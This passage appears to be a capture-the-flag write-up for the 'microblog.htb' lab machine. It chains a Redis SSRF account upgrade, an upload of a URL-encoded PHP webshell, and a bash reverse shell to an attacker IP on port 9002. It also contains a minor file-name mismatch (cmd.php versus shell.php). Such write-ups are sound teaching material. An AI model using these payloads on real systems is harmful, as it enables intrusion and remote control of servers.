 #### Exploitation

1. After a user account (here: username `foo`) has been created, the **SSRF** vulnerability can be exploited to turn it into a pro user. To do this, we can send a forged [HSET request](https://redis.io/commands/hset/) to the Redis socket:
    ```bash
    curl -X "HSET" /static/unix:%2Fvar%2Frun%2Fredis%2Fredis%2Esock:foo%20pro%20true%20/
    ```
    - nginx sets the placeholder for `proxy_pass` accordingly so that the following request is executed:
        ```
        http://unix:/var/run/redis/redis.sock:foo pro true /.microbucket.htb/
        ```
    - the request therefore passes the HSET command `foo pro true` to `redis.sock`, making `foo` a pro user account
2. If you now create a blog with the Pro account, the function `provisionProUser()` is executed, which creates the directory `/uploads` with write permissions. The **LFI** exploit can now be used to upload a webshell `cmd.php` in this directory, which enables commands to be executed via POST parameters. To do that, we can send the following POST request to `/edit`:
    ```
    POST /edit/index.php HTTP/1.1
    Host: foo.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 387
    Origin: http://foo.microblog.htb
    Connection: close
    Referer: http://foo.microblog.htb/edit/
    Cookie: username=o1tg5liv7pp287auh923b9e07s
    Upgrade-Insecure-Requests: 1

    id=/var/www/microblog/foo/uploads/cmd.php&txt=%3c%3f%70%68%70%20%69%66%28%69%73%73%65%74%28%24%5f%52%45%51%55%45%53%54%5b%27%63%6d%64%27%5d%29%29%7b%20%65%63%68%6f%20%22%3c%70%72%65%3e%22%3b%20%24%63%6d%64%20%3d%20%28%24%5f%52%45%51%55%45%53%54%5b%27%63%6d%64%27%5d%29%3b%20%73%79%73%74%65%6d%28%24%63%6d%64%29%3b%20%65%63%68%6f%20%22%3c%2f%70%72%65%3e%22%3b%20%64%69%65%3b%20%7d%3f%3e
    ```
    - The `txt` parameter is the webshell `PHP cmd 2` url-encoded from [revshells.com](https://revshells.com)
3. Now, we can executed commands via `http://foo.microblog.htb/uploads/shell.php?cmd=`. For example, to start a reverse shell:
    
    ```
    http://foo.microblog.htb/uploads/shell.php?cmd=%62%61%73%68%20%2d%63%20%27%2f%62%69%6e%2f%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%36%2f%39%30%30%32%20%30%3e%26%31%27
    ```
    - the `cmd` parameter is URL-encoded `bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'` for creating a reverse shell
4. We now have reverse shell access for `www-data`.

